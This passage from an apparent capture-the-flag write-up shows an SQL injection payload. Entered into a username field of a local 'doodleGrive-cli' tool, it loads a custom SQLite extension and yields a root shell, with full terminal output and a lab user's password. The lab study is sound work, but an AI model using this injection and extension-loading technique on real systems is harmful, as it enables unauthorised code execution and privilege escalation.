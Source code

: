 I like to point out my flaws, so I will. We are actually not supposed to use a comma, but a plus sign. This makes sense, because it would add the two strings together: the original username input and the output from our "extension." Our new payload is now this:
```
"+load_extension(char(46,47,115));--
```

Mistake aside, now let's try it once again:
```
doodleGrive cli beta-2.2:    
1. Show users list and info  
2. Show groups list  
3. Check server health and status  
4. Show server requests log (last 1000 request)  
5. activate user account  
6. Exit  
Select option: 5  
Enter username to activate account: "+load_extension(char(46,47,115));--  
Activating account for user '"+load_extension(char(46,47,115))--'...  
Error: ./s: undefined symbol: sqlite3_s_init  
  
doodleGrive cli beta-2.2:    
1. Show users list and info  
2. Show groups list  
3. Check server health and status  
4. Show server requests log (last 1000 request)  
5. activate user account  
6. Exit  
Select option:
```

From this, I'm predicting that we have to change the function name of `sqlite3_extension_init` to `sqlite3_s_init`. So let's just change that, recompile and try it (yet) again:
```
tom@drive:~$ ./doodleGrive-cli    
[!]Caution this tool still in the development phase...please report any issue to the development team[!]  
Enter Username:  
moriarty  
Enter password for moriarty:  
findMeIfY0uC@nMr.Holmz!  
Welcome...!  
  
doodleGrive cli beta-2.2:    
1. Show users list and info  
2. Show groups list  
3. Check server health and status  
4. Show server requests log (last 1000 request)  
5. activate user account  
6. Exit  
Select option: 5  
Enter username to activate account: "+load_extension(char(46,47,115));--  
Activating account for user '"+load_extension(char(46,47,115))--'...  
uid=0(root) gid=0(root) groups=0(root),1003(tom)  
  
doodleGrive cli beta-2.2:    
1. Show users list and info  
2. Show groups list  
3. Check server health and status  
4. Show server requests log (last 1000 request)  
5. activate user account  
6. Exit  
Select option:
```
